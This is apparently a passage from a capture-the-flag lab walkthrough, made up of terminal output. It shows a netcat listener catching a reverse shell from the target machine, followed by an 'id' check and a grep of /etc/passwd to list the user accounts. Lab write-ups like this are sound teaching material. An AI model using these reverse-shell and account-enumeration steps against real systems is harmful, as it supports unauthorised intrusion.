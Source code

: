 ![assign.png](assign.png)  

```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.218] from (UNKNOWN) [10.10.11.225] 60868
id
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
```

```bash
grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
```
